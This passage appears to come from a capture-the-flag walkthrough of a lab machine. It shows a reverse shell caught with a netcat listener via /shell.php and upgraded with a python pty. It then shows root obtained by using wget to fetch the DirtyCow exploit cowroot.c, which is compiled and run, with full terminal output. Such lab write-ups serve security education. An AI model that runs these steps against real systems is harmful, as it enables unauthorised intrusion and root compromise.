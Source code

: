 Hit /shell.php and you'll get your shell!  
  

    
    
    root@kali:/var/www/html# nc -nvlp 4444  
    listening on [any] 4444 ...  
    connect to [192.168.1.67] from (UNKNOWN) [192.168.1.68] 39308  
    Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux  
     22:20:52 up  1:22,  1 user,  load average: 0.00, 0.00, 0.00  
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT  
    waldo    pts/0    tmux(722).%0     20:57    1:23m  0.39s  0.39s irssi  
    uid=33(www-data) gid=33(www-data) groups=33(www-data)  
    /bin/sh: 0: can't access tty; job control turned off  
    $ python -c 'import pty; pty.spawn("/bin/bash")'  
    www-data@ubuntu:/$   
    

## Privilege escalation

There are two different ways to get root, one through dirty cow, and another
by escalating privileges to waldo then wallaby.  
  

#### Dirty cow

[cowroot.c](http://cowroot.c/) worked fine. You can prevent kernel from
crashing
[too](https://github.com/dirtycow/dirtycow.github.io/issues/25#issuecomment-255852675).
This is not the expected method to get root access though.  
  

    
    
    www-data@ubuntu:/$ cd /tmp  
    cd /tmp  
    www-data@ubuntu:/tmp$ wget https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c  
    <fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c           
    ...  
    Length: 4688 (4.6K) [text/plain]  
    Saving to: 'cowroot.c'  
      
    cowroot.c           100%[===================>]   4.58K  --.-KB/s    in 0s        
      
    2017-01-02 22:27:42 (9.57 MB/s) - 'cowroot.c' saved [4688/4688]  
      
    www-data@ubuntu:/tmp$ gcc cowroot.c -o cowroot -pthread  
    ...  
    www-data@ubuntu:/tmp$ ./cowroot  
    ./cowroot  
    DirtyCow root privilege escalation  
    Backing up /usr/bin/passwd to /tmp/bak  
    Size of binary: 54256  
    Racing, this may take a while..  
    thread stopped  
    thread stopped  
    /usr/bin/passwd overwritten  
    Popping root shell.  
    Don't forget to restore /tmp/bak  
    root@ubuntu:/tmp#  echo 0 > /proc/sys/vm/dirty_writeback_centisecs  
     echo 0 > /proc/sys/vm/dirty_writeback_centisecs  
    root@ubuntu:/tmp# whoami  
    whoami  
    root  
    